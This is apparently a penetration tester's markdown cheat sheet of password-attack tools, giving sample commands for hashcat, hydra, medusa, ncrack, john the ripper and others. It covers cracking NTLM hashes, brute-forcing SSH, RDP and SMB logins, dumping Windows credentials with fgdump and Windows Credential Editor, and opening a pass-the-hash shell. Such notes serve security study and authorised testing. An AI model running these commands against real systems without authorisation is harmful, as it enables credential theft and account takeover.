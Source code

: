 # [cewl](https://tools.kali.org/password-attacks/cewl):
#### `cewl <website.com> -m 6 -w <hash_file>`
  * -m sets the minimum word length
  * -w writes to a file

# [crunch](https://tools.kali.org/password-attacks/crunch):
#### `crunch 6 6 0123456879abcdef -o <hash_file>`
   * first param is min password size
   * second param is max password size
   * custom alphabets supported
   * -t allows you to specify a pattern, but the syntax isn't intuitive
   
# [fgdump](https://web.archive.org/web/20191202010850/http://foofus.net/goons/fizzgig/fgdump/):
#### `fgdump.exe`
  * dumps password hashes from older Windows versions

# [hashcat](https://tools.kali.org/password-attacks/hashcat):
#### `hashcat -m 110 <hash_file> <wordlist_file> --force`
#### `hashcat -m <1000/5500/5600> -a 3 <hash_file>`
  * -m specifies hash type; see the man page for reference
  * --force ignores warnings
  * 1000 for NTLM, 5500 for Net-NTLMv1, 5600 for Net-NTLMv2

# [hydra](https://tools.kali.org/password-attacks/hydra):
#### `hydra -l <username> -P <hash_file> -t 10 ssh://X.X.X.X`
  * -l chooses username (caps for file)
  * -p chooses password (caps for file)
  * -t specifies number of tasks to run in parallel
  * -w makes hydra wait in between attempts to avoid being blocked

# [medusa](https://web.archive.org/web/20191115182453/https://www.mankier.com/1/medusa):
#### `medusa -h X.X.X.X -u <username> -P <hash_file> -M http -m <directory> -T 20`
#### `medusa -H <host_file> -u <username> -M smbnt -m PASS:HASH`
  * -T determines number of threads
  * -M specifies the module to run
  * -m specifies parameters to pass
  * -n for non-default TCP port numbers
  * -f stops once a valid user/pass combo is found
  
# [ncrack](https://tools.kali.org/password-attacks/ncrack):
#### `ncrack -v -f --user <username> -P <hash_file> rdp://X.X.X.X CL=1`
  * -CL determines number of open connections at a time
  * -f stops after a valid user/pass combo is found

# [pth suite](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/):
#### `pth-winexe -U  <username> //X.X.X.X cmd`
  * there are many modules in the pth suite, check them out

# [john the ripper](https://tools.kali.org/password-attacks/john):
#### `john <hash_file>`
#### `john --wordlist=<wordlist> <hash_file>`
#### `john --format=<nt/netntlm/netntlmv2> --wordlist=<wordlist> <hash_file>`
  * --wordlist[=<hash_file>] allows you to give it the word you want to run against the hash
  * --fork[=n] allows you to spawn multiple processes
  * --session[=<name>] names a session that you can restore later
  * --restore[=<name>] restores the session
  * /etc/john/john.conf can be used to do password fuzzing on an existing wordlist (adding numbers for instance)
  * nt for NTLM, netntlm for Net-NTLMv1, netntlmv2 for Net-NTLMv2

# [windows credential editor](https://web.archive.org/web/20191202011255/https://www.ampliasecurity.com/research/wcefaq.html):
#### `wce32.exe -w`
  * -w dumps cleartext logon passwords
  * -o specifies an output file
  * -g generates an NTLM hash for the supplied cleartext password
